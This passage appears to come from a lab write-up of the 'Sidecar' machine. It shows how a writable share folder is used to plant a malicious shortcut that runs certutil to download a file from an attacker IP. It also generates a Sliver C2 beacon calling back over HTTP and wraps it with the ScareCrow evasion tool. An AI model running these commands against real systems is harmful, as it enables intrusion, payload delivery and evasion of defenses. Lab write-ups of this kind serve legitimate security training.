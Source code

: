 
![](Sidecar_Cover.png)



Cool ! We got write access in the Custom Folder of the public Share . which is the `Folder for custom shortcuts & internet links.`

We can craft our lnk files , So if some users being curious enough to **click** on shortcut files

--> We can grab hash on responder / steam ntlm , but that hash wasn't crackable !

--> We can relay authentication , But we cant do in this situation !

-->  We can craft lnk to download and run our beacon on behalf of that user !




```
└─# pylnk3 create C:/Windows/System32/cmd.exe -a "/c certutil.exe -f -split -urlcache http://10.8.0.148/hashgrab.py & " check.lnk
```

Upload Beacon . And get a proper shell.


```
[server] sliver > generate beacon --seconds 30 --jitter 3 --os windows --arch amd64 --format shellcode --http 10.8.0.148?driver=wininet --name sidecar-beacon --save sidecar.bin -G --skip-symbols
```

```
└─# ./ScareCrow_ -I sidecar.bin -domain www.vulnlab.com
```

